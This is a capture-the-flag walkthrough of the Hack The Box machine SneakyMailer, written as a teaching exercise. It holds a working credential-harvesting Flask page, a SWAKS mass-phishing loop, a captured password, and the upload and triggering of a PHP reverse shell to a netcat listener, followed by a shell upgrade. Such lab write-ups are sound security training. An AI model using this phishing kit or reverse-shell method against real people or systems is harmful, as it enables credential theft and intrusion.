


# Exercise: Phishing on SneakyMailer

The Hack The Box machine SneakyMailer is running a number of services; FTP \(port 21\), SSH \(port 22\), SMTP \(port 25\), HTTP \(port 80\), IMAP \(port 143\), IMAP TLS \(port 993\), HTTP \(port 8080\). The main website on port 80 has a team member list from which names and email addresses can be harvested to create a candidate user list. Running Gobuster on the site reveals a PHP file register.php

 a machine that simulates responding to a phishing attack to capture a user's credentials. Although we could use Gophish easily to achieve this, we will use another tool to send emails called SWAKS - Swiss Army Knife for SMTP \(https://github.com/jetmore/swaks\) and we will host the landing page in code that we will write ourselves.

Running an nmap scan, we find a number of ports open: FTP \(21\), SSH \(22\), SMTP \(25\), HTTP \(80\), IMAP \(143\), IMAP TLS \(993\), HTTP \(8080\)

It seems the machine is running two websites and an email server supporting SMTP and IMAP. The FTP server does not support anonymous logon and so we can look at the main web server on port 80. Going to http://sneakymailer.htb, it redirects to the URL http://sneakycorp.htb and so we can add that name to the hosts file. Visiting that URL takes us to a landing page for SNEAKY CORP which is a Dashboard showing information about 2 projects, PyPi and POP3/SMTP \(Figure 3-29\).


Sneaky Corp Dashboard.

The Team page gives a list of team members with email addresses \(Figure 3-30\)


Sneaky Corp Team page.

We can grab all of the email addresses by using the command

```bash
curl http://sneakycorp.htb/team.php | grep @ | cut -d '>' -f 2 | cut -d '<' -f 1 > emails.txt
```

This command fetches the team.php page using curl and then passes the output to the grep command using the pipe operator '\|'. grep matches any line in the output that features the @ symbol of the email address. This gives us lines of text with some HTML around the email addresses and so we need to further refine the text using the cut command. Since the output from the grep is lines like

```markup
<td>donnasnider@sneakymailer.htb</td>
```

We can use cut to delimit \(-d\) based on the character of the '&gt;' and select the second field that results, then get rid of the final HTML with a second cut command. The entire output consisting of just the emails can then be saved to a file emails.txt.

Note that you can also simply copy paste the text from the page into a spreadsheet or editor and manually then copy the emails.

We haven't finished our reconnaissance of the web site yet however and we will run gobuster on the site:

```bash
┌─[rin@parrot]─[~/boxes/SneakyMailer]
└──╼ $gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://sneakycorp.htb/
…
/img (Status: 301)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/pypi (Status: 301)
```

We get a number of directories, the most interesting of which is pypi. We can run a further gobuster on this directory:

```bash
┌─[rin@parrot]─[~/boxes/SneakyMailer]
└──╼ $gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php -u http://sneakycorp.htb/pypi/
/register.php (Status: 200)
```

Going to that page, we get an account registration page


Filling out details and clicking register account does not seem to do anything. No account is added to the emails in the team page and there is nowhere to actually login. Likewise, the Logout function on the home page does not do anything either.

Given we have found email addresses and a registration page and the fact that the machine has a mail server and is called SneakyMailer, we can guess that this may be suggesting that we could exploit a phishing attack.

At this point it would be relatively simple to use Gophish to set up a campaign, clone the registration web page and capture any responses. However, we will use a different tool to clone the web page called HTTrack. HTTrack is capable of copying an entire website, but we will use it to capture the registration page.

Create a directory called www and a subdirectory called templates. cd to the templates directory and run:

```bash
httrack http://sneakycorp.htb/pypi/register.php -o .
```

This will copy a number of files but we can copy the register.html page created from the path sneakycorp.htb/pypi/register.html to the current directory

```bash
cp sneakycorp.htb/pypi/register.html 
```

We are now going to write a simple application to host this page, capture any data that is sent to it and then redirect to the real registration page. To do this we will use Python and Flask.

```python
# Code adapted from MrR3boot
from flask import *
import requests
app = Flask(__name__)
@app.route('/pypi/register.php',methods=['GET','POST'])
def register():
 if request.method=="GET":
 return render_template("register.html")
 else:
 print(request.args)
 print(request.form)
 return redirect('http://sneakycorp.htb/pypi/register.php',
 code=302)
app.run('0.0.0.0',80)
```

This code will start a web server listening on port 80 and any request received with the path /pypi/register.php will be handled by the method register\(\). If the HTTP request is a GET, then it will use the page we cloned; register.html as a template and return that. If it is a POST request, the application will print out the arguments and form data and then redirect to the real registration page.

To run the application, we just use

```bash
sudo python3 app.py
```

You can test the page by visiting http://127.0.0.1/pypi/register.php and submit the form. You should see the data being printed out and the page redirect to the sneakycorp.htb site.

Now that we have the landing page, we need to send the phishing emails using the email list we scraped from the Sneaky Corp site. To do that, we are going to use SWAKS as mentioned before. We can write a script to read through the emails in the emails.txt file and send a message containing the URL for the phishing landing page:

```bash
#!/bin/bash
for email in `cat emails.txt`
do
 echo "[*] sending to $email"
 swaks --from support@sneakymailer.htb --to $email
 --server sneakycorp.htb
 --header 'Subject: Please register your account'
 --body 'http://10.10.14.117/pypi/register.php'
done
```

As this script runs, it will print out debugging information

```bash
[*] sending to paulbyrd@sneakymailer.htb
=== Trying sneakycorp.htb:25...
=== Connected to sneakycorp.htb.
<- 220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO parrot
<- 250-debian
<- 250-PIPELINING
<- 250-SIZE 10240000
<- 250-VRFY
<- 250-ETRN
<- 250-STARTTLS
<- 250-ENHANCEDSTATUSCODES
<- 250-8BITMIME
<- 250-DSN
<- 250-SMTPUTF8
<- 250 CHUNKING
 -> MAIL FROM:<support@sneakymailer.htb>
<- 250 2.1.0 Ok
 -> RCPT TO:<paulbyrd@sneakymailer.htb>
<- 250 2.1.5 Ok
 -> DATA
<- 354 End data with <CR><LF>.<CR><LF>
 -> Date: Tue, 15 Dec 2020 13:14:41 +0800
 -> To: paulbyrd@sneakymailer.htb
 -> From: support@sneakymailer.htb
 -> Subject: Please register your account
 -> Message-Id: <20201215131441.004588@parrot>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 ->
 -> http://10.10.14.117/pypi/register.php
 ->
 ->
 -> .
<- 250 2.0.0 Ok: queued as 38CD624256
 -> QUIT
<- 221 2.0.0 Bye
```

And eventually we will get a hit on the landing page:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/SneakyMailer]
└──╼ $sudo python3 app.py
[sudo] password for rin:
 * Serving Flask app "app" (lazy loading)
 * Environment: production
 WARNING: This is a development server. Do not use it in a production deployment.
 Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)
ImmutableMultiDict([])
ImmutableMultiDict([('firstName', 'Paul'), ('lastName', 'Byrd'), ('email', 'paulbyrd@sneakymailer.htb'), ('password', '^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht'), ('rpassword', '^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht')])
10.129.2.28 - - [15/Dec/2020 13:15:06] "POST /pypi/register.php HTTP/1.1" 302 -
```

The user Paul Byrd with email address **paulbyrd@sneakymailer.htb** and password **^\(\#J@SkFv2\[%KhIxKk\(Ju\`hqcHl&lt;:Ht** responded to the phishing email.

These credentials don't work with FTP or SSH but we can use them to connect to the mail server and read emails. 


To install Thunderbird use:

`sudo apt install thunderbird`


Configure the mail settings as shown here:


You may get an error regarding an error regarding a certificate but you can ignore that. In the Sent Items folder, there are two emails. The first is regards to a password reset request



The second email is about module testing \(Figure 3-34\)



From the first email, we have a username and password for developer and logging into FTP, we see that these credentials work. After logging in, we can see that there is a dev folder with the contents of what looks like the website in it.

```bash
┌─[rin@parrot]─[~/boxes/SneakyMailer/]
└──╼ $ftp sneakymailer.htb
Connected to sneakymailer.htb.
220 (vsFTPd 3.0.3)
Name (sneakymailer.htb:oztechmuse): developer
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x 8 0 1001 4096 Jun 30 00:15 dev
226 Directory send OK.
ftp> cd dev
250 Directory successfully changed.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x 2 0 0 4096 May 26 2020 css
drwxr-xr-x 2 0 0 4096 May 26 2020 img
-rwxr-xr-x 1 0 0 13742 Jun 23 08:44 index.php
drwxr-xr-x 3 0 0 4096 May 26 2020 js
drwxr-xr-x 2 0 0 4096 May 26 2020 pypi
drwxr-xr-x 4 0 0 4096 May 26 2020 scss
-rwxr-xr-x 1 0 0 26523 May 26 2020 team.php
drwxr-xr-x 8 0 0 4096 May 26 2020 vendor
226 Directory send OK.
ftp>
```

We can try writing to the directory by using a put command. It turns out that we can upload files to the dev directory but when looking at the website, they are not there. One thing we haven't checked is if there are any virtual hosts. Virtual hosts are ways of creating different websites pointing at different directory paths simply by changing the host name in the HTTP request. We can use gobuster to see if there are any virtual hosts for the domain sneakycorp.htb and indeed we find that there is a virtual host dev.sneakycorp.htb:

```bash
┌─[✗]─[oztechmuse@parrot]─[~/boxes/SneakyMailer/]
└──╼ $gobuster vhost -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u sneakycorp.htb
<SNIP>
===============================================================
Found: dev.sneakycorp.htb (Status: 200) [Size: 13742]
```

We can upload a PHP reverse shell that we copy from /usr/share/webshells/php/php-reverse-shell.php. We can change the IP address and port in the file and start a netcat listener on that port. In ftp we simply cd to the dev directory and do a put of the file.

```bash
ftp> put revshell.php
local: revshell.php remote: revshell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (98.8582 MB/s)
ftp>
```

Calling the file from http://dev.sneakycorp.htb/revshell.php will get a reverse shell on our listener:

```bash
┌─[rin@parrot]─[~/boxes/SneakyMailer]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.117] from (UNKNOWN) [10.129.2.28] 45354
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 08:01:00 up 10:35, 0 users, load average: 0.00, 0.02, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We can then upgrade the shell using

```bash
$python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@sneakymailer:/$ ^Z
[1]+ Stopped nc -lvnp 6001
┌─[✗]─[rin@parrot]─[~/boxes/SneakyMailer]
└──╼ $stty raw -echo
┌─[rin@parrot]─[~/boxes/SneakyMailer]
nc -lvnp 6001
www-data@sneakymailer:/$
```


